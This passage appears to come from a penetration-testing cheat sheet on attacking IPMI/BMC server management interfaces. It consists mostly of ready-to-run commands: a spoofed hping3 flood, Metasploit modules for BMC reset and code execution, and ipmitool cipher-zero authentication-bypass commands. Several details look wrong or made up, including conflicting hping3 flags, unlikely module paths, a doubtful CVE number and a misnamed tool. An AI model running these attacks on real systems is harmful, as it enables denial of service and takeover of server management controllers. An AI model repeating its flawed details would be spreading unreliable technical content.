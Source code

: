 *   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### Exploit BMC Reset Vulnerability

*   **Tool:** \[\[Metasploit]]

    ```bash
    use auxiliary/dos/ipmi/ipmi_bmc_reset
    set RHOSTS <target_ip>
    run
    ```
* **Description:** Exploit a vulnerability that causes the BMC to reset or crash, leading to temporary unavailability of the management interface.

### Exploits

#### Remote Code Execution via IPMI

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/linux/ipmi/ipmi_rce
    ```
* **Description:** Executes arbitrary code on the BMC by exploiting vulnerabilities in the IPMI firmware.

#### CVE-2018-1005206

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/hardware/ipmi/ipmi_kcs
    set RHOSTS <target_ip>
    run
    ```
* **Description:** Exploits a vulnerability in the KCS (Keyboard Controller Style) interface, allowing an attacker to gain administrative access to the system.

#### IPMI Cipher Suite Zero Authentication Bypass

*   **Tool:** \[\[IMPITool]]

    ```bash
    ipmitool -I lanplus -H <target_ip> -C 0 chassis power status
    ipmitool -I lanplus -H <target_ip> -C 0 -U <username> shell
    ```
* **Description:** Exploits the Cipher Suite 0 to check the power status without authentication.

## Resources
